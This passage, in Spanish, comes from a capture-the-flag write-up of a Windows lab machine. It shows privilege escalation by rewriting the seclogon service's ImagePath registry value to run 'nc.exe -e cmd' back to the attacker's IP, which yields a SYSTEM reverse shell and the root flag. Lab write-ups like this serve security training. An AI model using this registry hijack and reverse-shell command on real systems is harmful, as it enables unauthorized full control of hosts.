 ```null
PS C:\Temp> sc.exe config seclogon binPath="C:\Temp\nc.exe"
[SC] OpenService FAILED 5: 

Access is denied.
```

Examino los atributos del registro que corresponde a ese servicio

```null
PS C:\Temp> reg query HKLM\System\CurrentControlSet\Services\seclogon

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon 
    Description    REG_SZ    @%SystemRoot%\system32\seclogon.dll,-7000
    DisplayName    REG_SZ    @%SystemRoot%\system32\seclogon.dll,-7001
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    805101000000000000000000030000001400000001000000C0D4010001000000E09304000000000000000000
    ImagePath    REG_EXPAND_SZ    %windir%\system32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeTcbPrivilege\0SeRestorePrivilege\0SeBackupPrivilege\0SeAssignPrimaryTokenPrivilege\0SeIncreaseQuotaPrivilege\0SeImpersonatePrivilege
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon\Parameters
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon\Security
```

No tiene el binPath típico, sino que hay otro llamado ImagePath

Modifico directamente el registro

```null
PS C:\Temp> reg add HKLM\System\CurrentControlSet\Services\seclogon /t REG_EXPAND_SZ /v ImagePath /d "C:\Temp\nc.exe -e cmd 10.10.14.7 443" /f
The operation completed successfully. 
```

Inicio el servicio

```null
PS C:\Temp> sc.exe start seclogon
```

Y gano acceso en una sesión de netcat

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:49761.
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Puedo visualizar la segunda flag

```null
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
34502f22263c6dd4e8c60d8a4b456853
```